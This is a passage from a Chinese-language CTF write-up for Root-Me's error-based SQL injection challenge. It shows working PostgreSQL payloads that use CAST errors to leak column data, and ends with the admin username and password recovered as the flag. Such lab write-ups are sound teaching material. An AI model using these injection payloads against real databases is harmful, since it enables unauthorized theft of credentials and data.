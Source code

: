 继而从异常中得到新的一列 `em41l_c0l`，利用之构造新的 payload 如下：

`,(CAST(CHR(62)||(SELECT * FROM m3mbr35t4bl3 GROUP BY us3rn4m3_c0l, id, p455w0rd_c0l, em41l_c0l) AS NUMERIC))`

这次报错信息变成了 `ERROR:  subquery must return only one column` 。

说明 `GROUP BY` 已经包含了所有列并查询了结果返回，但新返回值多于 1 列，所以使得我们的 payload 报错。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/26.png)

------------

## 获取目标表的表数据

至此我们已经知道了这些信息：

- 目标表的表名为 `m3mbr35t4bl3` （这变体可以的。。。members_table ??? ）
- 目标表一共只有 4 列：`id`, `em41l_c0l`, `us3rn4m3_c0l`, `p455w0rd_c0l` （这列名也太刻意了。。）
- 目标表只有一行数据

那么要获得表数据就很简单了。

如下构造查询 `id` 列数据的 payload，得到 `1` ：

`,(CAST(CHR(62)||(SELECT id FROM m3mbr35t4bl3) AS NUMERIC))`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/27.png)

如下构造查询 `em41l_c0l` 列数据的 payload，得到 `admin@localhost` ：

`,(CAST(CHR(62)||(SELECT em41l_c0l FROM m3mbr35t4bl3) AS NUMERIC))`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/28.png)

如下构造查询 `us3rn4m3_c0l` 列数据的 payload，得到 `admin` ：

`,(CAST(CHR(62)||(SELECT us3rn4m3_c0l FROM m3mbr35t4bl3) AS NUMERIC))`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/29.png)

如下构造查询 `p455w0rd_c0l` 列数据的 payload，得到 `1a2BdKT5DIx3qxQN3UaC` ：

`,(CAST(CHR(62)||(SELECT p455w0rd_c0l FROM m3mbr35t4bl3) AS NUMERIC))`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/30.png)

------------

## 完成挑战

使用得到的账号 `admin` 和密码 `1a2BdKT5DIx3qxQN3UaC` 登陆，得知这个密码就是 flag，完成挑战：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/31.png)

------
